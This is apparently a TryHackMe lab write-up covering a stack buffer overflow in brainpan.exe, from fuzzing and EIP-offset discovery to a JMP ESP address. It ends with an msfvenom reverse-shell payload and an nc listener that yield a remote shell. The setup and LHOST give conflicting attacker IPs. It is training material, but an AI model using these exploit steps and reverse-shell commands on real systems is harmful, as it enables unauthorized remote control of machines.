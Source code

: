 # brainpan.exe - Buffer Overflow Prep - TryHackMe

Writeup for the **brainpan.exe** app available in the [Buffer Overflow Prep](https://tryhackme.com/room/bufferoverflowprep) room from [TryHackMe](https://tryhackme.com/).

Steps for exploiting the **brainpan.exe** application:
1. Know your app
2. Fuzz
3. Find EIP offset
4. Test for bad chars
5. Exploit!

## Set up

* Attacker: Kali Linux, IP 192.179.80.177
* Target: Windows 7 VM, IP 192.168.90.136
  * [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
  * [mona.py](https://github.com/corelan/mona)

## 1. Know your app

Interact with the app and take note of the expected input.
```
nc -nv 192.168.90.136
```


...



## 2. Fuzz

Fuzz the application to test for buffer overflow. You can use [SPIKE](https://resources.infosecinstitute.com/topic/intro-to-fuzzing/) (generic_send_tcp), a tool already available at most Kali Linux installs, or your own script.

In this case, I used a somewhat generic script I created for fuzzing TCP applications: [sock-stream-fuzz.py](https://github.com/isabellecda/cyber-scripts/tree/main/buffer-overflow). Please feel free to use it and/or contribute to it.

Run the application in Immunity Debugger and execute the fuzzer:
```
./sock-stream-fuzz.py --rhost=192.168.90.136 --rport=9999 -f --buffstep=200
```


Application crashed with 600 bytes!

We can see in the debugger that the EIP registry was overwriten:



Testing the application with a buffer head, we can see that we were also able to write to memory positions pointed by EDX and ESP. 
```
./ig-buffer-overflow.py -m test --rhost=192.168.90.136 --rport=9999 --buffsize=1000 --buffhead='HELLO '
```



## 3. Find EIP offset

To find the EIP offset, send a cyclic pattern to the application (the value writen in EIP will be checked against the pattern and the offset will be found).

For this and the next steps I will be using a custom script I created: [ig-buffer-overflow.py](https://github.com/isabellecda/cyber-scripts/tree/main/buffer-overflow). Please feel free to use it and/or contribute to it.

Re-run the application in the debugger and send the cyclic string:
```
./ig-buffer-overflow.py -m cyclic --rhost=192.168.90.136 --rport=9999 --buffsize=600 --buffhead=''
```



Check offset:
```
./ig-buffer-overflow.py -m checkoffset --value=35724134 --length=600
Offset for length 600: 524
```

## 4. Test for bad chars

Write bad chars to found memory position to find out which chars we have to exclude from our exploit:
```
./ig-buffer-overflow.py -m write --rhost=192.168.90.136 --rport=9999 --buffsize=600 --buffhead='' --offset=524 --hexcontent=BBBBBBBB --before=badchar --exclude=00 --nopsb=2
```



!mona config -set workingfolder c:\temp

!mona bytearray

!mona compare -f c:\monalogs\brainpan_2164\bytearray.bin -a 005FF80B



## 5. Find JMP instruction

!mona jmp -n -r ESP



JMP ESP address = 0x311712f3

Set breakpoint at 0x311712f3 and test it writing even more bytes to the application (the following command also adds some nops before and after write content):

./ig-buffer-overflow.py -m write --rhost=192.168.90.136 --rport=9999 --buffsize=1200 --buffhead='' --offset=524 --hexcontent=l311712f3 --after=BBBB --nopsa=4 --before=CCCC --nopsb=10



## 6. Exploit!

Generate shellcode:
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=192.168.80.177 LPORT=443 -f hex EXITFUNC=thread -o reverse
```

Set up handler:
```
sudo rlwrap -a nc -lvnp 443
```

Exploit:
```
./ig-buffer-overflow.py -m write --rhost=192.168.90.136 --rport=9999 --buffsize=1200 --buffhead='' --offset=524 --hexcontent=l311712f3 --after=shellcode --nopsa=10 --shellcode=reverse2


```

Got the shell!!





THE END!

#walkthrough #writeup #brainpan
